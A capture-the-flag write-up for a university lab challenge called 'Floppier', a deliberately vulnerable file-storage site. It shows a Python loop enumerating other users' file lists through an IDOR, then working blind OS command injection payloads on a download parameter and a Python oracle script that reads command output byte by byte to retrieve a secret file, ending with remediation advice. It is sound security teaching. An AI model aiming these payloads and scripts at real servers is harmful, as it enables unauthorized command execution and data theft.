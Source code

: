 # Floppier

Author: Samuele Casarin <862789@stud.unive.it>

## Solution

Floppier is a vulnerable website which provides an online storage service for nostalgic users (each user could upload up to 1.44MB of data, like in old 3.5-inches diskettes).

The website has the following pages:
 - Welcome page, with a brief presentation of the website
 - Register page
 - Login page
 - Floppy page, where the user can:
   - upload a file
   - view the list of his own files
   - download a file
   - delete a file
   - check the usage of his storage space
   - download a CSV file with the file list (this feature is tagged as "BETA", interesting...)

tl;dr: a user could only view his own files... Or this is what they want us to believe!

After registering and logging in, we move into our own floppy page. Obviously, the first thing we try to do is uploading a file.

Then, we take a look at the CSV file generated from the suspicious beta feature "Download file list". It has the following columns:
 - id: the internal ID of the file
 - name: the name of the file
 - type: the MIME type of the file
 - size: the size (in bytes) of the file
 - integrity: the MD5 digest of the file

In no time, we notice that the beta feature "Download file list" allows to download the file list of an arbitrary user by just changing the value of the query parameter "userid".

Since time is money, we write a Python script which does the dirty work for us, by downloading the file lists of all the users up to ours (the initial value of "userid" is the ID of our user profile), with the hope of finding something interesting.

```python
for i in range(1, YOUR_USER_ID):
    url = 'https://floppier.seclab.dais.unive.it/list.php?userid={}' \
        .format(i)
    res = requests.get(url, cookies=cookies)
    print('USER {}'.format(i))
    print(res.text)
```

After some empty file lists, we find the following file list of the user 8:

```
id;name;type;size;integrity
56;secret.txt;text/plain;158;3fe598f69b2272cc424197d1f6fba7c4
```

That "secret.txt" looks tasty! Could we read it?

Moving to the list of our files, we notice that the "Download" link of any file has a query parameter "fileid" and so we try to replace the value with `56` (the ID of the secret file). Unluckily, this time we obtain a response with status code 404. Sad...

Some tries later, we append `; sleep 10`, i.e. we inject a classic Bash command, to the value of the query parameter "fileid" of the link for downloading our file and we observe that the server takes about 10 seconds before responding with an empty file. Thus, we claim that this feature is vulnerable to OS command injection.

Furthermore, we also observe that, if we inject a command which alters the output, such as ` | echo "I'm a potato"`, the server responds with status code 500 and the body `Integrity check failed.`. This allows us to claim that the purpose of the command is not to read the content of the file, but to check the MD5 hash of the file.

Luckily for us, this vulnerability let us to play blind in an easy way!

We write a Python script which prints on our terminal the output of an arbitrary, idempotent command run on the server. Idempotence is required, since the same command has to be executed many times in order to read the whole output, which should not change between different executions (in a short period of time).

First, we design a "Download" link which allows us to ask to the server if a given property is true (expressed as an if condition in Bash). In particular, we inject the command ` | if <property>; then cat; fi`. In this way:
 - if the property is true, the output of the command will be the same as the output of the command without injection and the response will have status code 200;
 - otherwise, the output of the command will be empty and the response will have status code 500.

In a nutshell, we treat the server as an oracle which responds to our questions with "yes" or "no".

```python
def ask_oracle(bash_cond):
    url = 'https://floppier.seclab.dais.unive.it/download.php?fileid={}' \
          ' | if {}; then cat; fi' \
        .format(YOUR_FILE_ID, bash_cond)
    res = requests.get(url, cookies=cookies)
    return res.status_code == 200
```

We can use this oracle in order to exfiltrate the output bit by bit.

To make things faster:
 - we read each byte using a binary search algorithm;
 - we read many bytes at a time (multiprocessing on duty).

```python
def byte_is_lesser_than(cmd, i, x):
    return ask_oracle(
        '[ "$(printf \'%d\\n\' "\'$({} | head -c {} | tail -c 1)")" -lt "{}" ]'
        .format(cmd, i + 1, x)
    )

def read_byte(cmd, i):
    a = 0
    b = 256
    for j in range(0, 8):
        m = (a + b) >> 1
        if byte_is_lesser_than(cmd, i, m):
            b = m
        else:
            a = m
    return a

# ...

def execute(cmd):
    cmd1 = '{} | base64'.format(cmd)

    pool = multiprocessing.Pool(processes=PROCESSES)
    jobs = [
        pool.apply_async(read_byte, args=(cmd1, i,))
        for i in range(read_length(cmd1))
    ]

    return base64.b64decode(bytes([j.get() for j in jobs])).decode('ascii')

print(execute(CMD))
```

Note: we encode the output in base64 to make sure we have the exact bytes.

We execute the script with `CMD = 'ls'` to list the working directory:

```
assets
delete.php
download.php
floppy.php
functions
index.php
list.php
login.php
logout.php
register.php
templates
upload.php
uploads
```

We notice the `uploads` directory, so again we execute the script with `CMD = 'ls uploads/'` to list such directory:

```
100
56
99
```

Finally, we notice a file called `56` (the ID of the secret file), so we execute the script with `CMD = 'cat uploads/56'`:

```
Well done, young Padawan! You've finally mastered the power of OS command injection.
This is the flag, please don't mess up the server :)

flg{ZjpczHt3uEWYnxY4}
```

Here we go, we have the flag. Cheers!

## About security

This challenge focuses on two server-side vulnerabilities:
 - Insecure Direct Object References (IDOR): a web application uses user-supplied input to directly access objects (in this case, the file list of any user);
 - Blind OS command injection: allows the attacker to execute arbitrary OS commands on the server, but the output of the commands is not included within the HTTP responses.

In order to solve these issues, it is necessary to correctly implement access control in the beta feature "Download file list" and to call safe, OS-independent functions to do the same task and/or sanitize the user input.

